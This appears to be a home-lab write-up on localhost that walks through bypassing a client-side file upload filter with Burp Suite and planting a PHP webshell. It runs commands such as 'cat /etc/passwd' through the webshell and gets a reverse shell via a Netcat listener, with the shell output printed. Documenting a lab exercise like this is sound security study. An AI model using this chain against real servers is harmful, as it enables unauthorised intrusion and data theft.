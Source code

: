 # Insecure File Upload - Basic Bypass

- When I arrived at the website, I discovered a section dedicated to uploading files.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/1648bea8-6859-47c1-a990-e0d8533e6e22)

- During my testing, I attempted to upload a text file, but I encountered a restriction stating that only PNG and JPG files are permitted for uploading.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/914c4299-4da3-4e5c-a68a-ab1bb13ff602)

- Once again, I attempted to upload the file to observe if any requests were sent to the server. However, after I looked it over, I did not see any requests being made during the upload process.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/82a8f37e-2833-4fab-b39a-79f928fd5588)

- I repeated the process of uploading a PNG file and intercepted the corresponding request using Burp Suite for analysis.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/e420cf1e-5dfb-4d57-9ed9-07d1271a716f)

- After sending the request to the repeater in Burp Suite, I proceeded to make some minor modifications to the request in an attempt to achieve my goal. I changed the file name extension from "png" to "txt" and removed the image data. Instead, I inserted the text "Hello" in its place.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/44bf9630-045d-4f0d-b344-16b6d36e5b52)

- Following the successful modification of the request, I refreshed the browser page to verify if the file was indeed uploaded.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a38ca213-ebd1-42eb-afbf-c228d7732a2a)

- This time I used a PHP cmd to extract the data from the server. For this, I have changed the filename and inserted the PHP command.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/bde039b8-5706-4e50-9e0d-36e2e0d86eeb)


- In my attempt to locate the uploaded file folder, I utilized the tool "ffuf." Through this process, I successfully discovered an "upload" folder located under the "labs" directory.

```bash
└─$ ffuf -u http://localhost/labs/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/labs/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 56ms]
    * FUZZ: .htaccess

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 100ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 153ms]
    * FUZZ: .hta

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 197ms]
    * FUZZ: 

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
    * FUZZ: uploads

:: Progress: [4614/4614] :: Job [1/1] :: 46 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- Upon navigating to the discovered "upload" folder under the "labs" directory, I obtained the following output:

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/1bfdec73-bf4d-4206-b0a6-7cd313bdbc5e)

- To get the desired output, I need to send a command with argument, so I tried with this command in the URL:
- cmd: `http://localhost/labs/uploads/cmd.php?cmd=whoami`

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/f598091a-35ee-470f-99e9-37a4067e635a)

- I am also able to fetch the passwd file by using command: `http://localhost/labs/uploads/cmd.php?cmd=cat /etc/passwd`

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/b5c6aeba-e3d9-4607-ba83-0f9ac58e182f)

- To improve the view I switched to the page source.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a5933a85-c103-4314-8aa8-5fdedf16bac3)

- I am also able to get a reverse shell to my system by using the [pentest-monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) PHP reverse shell script.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/0d8ff565-0466-45d5-ae5f-e789aad11976)

- After setting the Netcat listening server and navigating to the file I am indeed successful in getting the reverse shell back to my system.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/7fe8a9c7-b777-4a97-b38e-0d53086e1b66)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from (UNKNOWN) [17x.xxx.xx.x] 34670
Linux d19181ed4936 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 GNU/Linux
 05:22:07 up  1:52,  0 users,  load average: 1.35, 1.32, 0.92
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

### Task Accomplished!

